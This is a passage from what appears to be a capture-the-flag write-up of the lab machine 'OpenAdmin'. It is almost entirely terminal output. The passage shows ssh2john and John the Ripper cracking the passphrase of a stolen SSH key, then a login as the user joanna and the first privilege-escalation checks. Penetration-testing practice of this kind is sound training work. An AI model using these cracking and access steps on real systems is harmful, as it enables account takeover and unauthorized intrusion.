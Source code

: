 ```
```

```
$ ~/git/JohnTheRipper/run/ssh2john.py joanna.key > joanna.hash
$ john_rockyou joanna.hash
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna.key)
1g 0:00:00:01 DONE (2022-08-08 18:23) 0.9009g/s 8625Kp/s 8625Kc/s 8625KC/s bloodrave2..bloodm1st
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

real    0m3.636s
user    0m42.848s
sys     0m0.061s
```

### the last step

```
$ ssh -i joanna.key -l joanna openadmin.htb
Warning: Permanently added 'openadmin.htb' (ED25519) to the list of known hosts.
Enter passphrase for key 'joanna.key':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug  9 00:24:17 UTC 2022

  System load:  0.0               Processes:             176
  Usage of /:   31.0% of 7.81GB   Users logged in:       1
  Memory usage: 14%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$

joanna@openadmin:~$ crontab -l 
no crontab for joanna
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass
```